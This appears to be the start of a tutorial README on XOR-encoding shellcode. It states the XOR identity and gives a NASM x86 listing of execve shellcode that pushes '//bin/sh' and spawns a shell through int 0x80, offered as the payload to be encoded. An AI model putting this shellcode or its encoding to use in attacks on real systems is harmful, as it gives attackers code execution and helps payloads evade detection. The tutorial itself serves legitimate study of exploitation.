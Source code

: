 # XOR Encoder

## Basic XOR Encoding/Decoding
```ASM
(A XOR B) XOR B = A
```

## XOR Encoding Process
#### 1) Create .nasm file
```ASM
global _start

section .text

_start:

	xor eax, eax			; Preparing Nulls in EAX register
	push eax			; Pushing the first Null DWORD
	
	push 0x68732f6e
	push 0x69622f2f
	
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	
	; syscall()
	mov al, 0xb
	int 0x80
```
